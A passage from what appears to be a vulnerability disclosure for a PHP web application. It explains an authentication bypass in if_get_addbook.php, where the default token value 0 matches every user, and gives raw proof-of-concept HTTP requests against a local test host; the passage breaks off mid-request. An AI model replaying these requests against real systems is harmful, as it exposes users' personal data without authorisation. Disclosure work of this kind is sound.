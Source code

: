 tk_display_name=todaro&tk_user_contact=18010101010&tk_user_email=12%40qq.com&tk_user_remark=aaaaaaaaaaaaaaaaaa&tk_user_rank=5&submit=%E4%BF%9D%E5%AD%98&MM_update=form1&ID=2
```

![17.png](./img/17.png)

**[7]Sensitive Information Disclosure Vulnerability**

The if_get_addbook.php file does not have an authentication operation.

![18.png](./img/18.png)

Line 3 reads all the input via php://input;
Line 4 decodes the json data;
Line 7 checks the token value in json with the check_token function.

The check_token function is in /function.class.php:

![19.png](./img/19.png)

By default, all users have a token of 0.

![20.png](./img/20.png)

So the check_token function returns the uid of the user whose token is 0, which is the uid of all users by default.

Go back to if_get_addbook.php:

![21.png](./img/21.png)

![22.png](./img/22.png)

Line 11 calls the get_user_select function in function.class.php.

POST requests the following data:
```
POST /if_get_addbook.php HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 11
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/default_user_edit.php?UID=2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie:
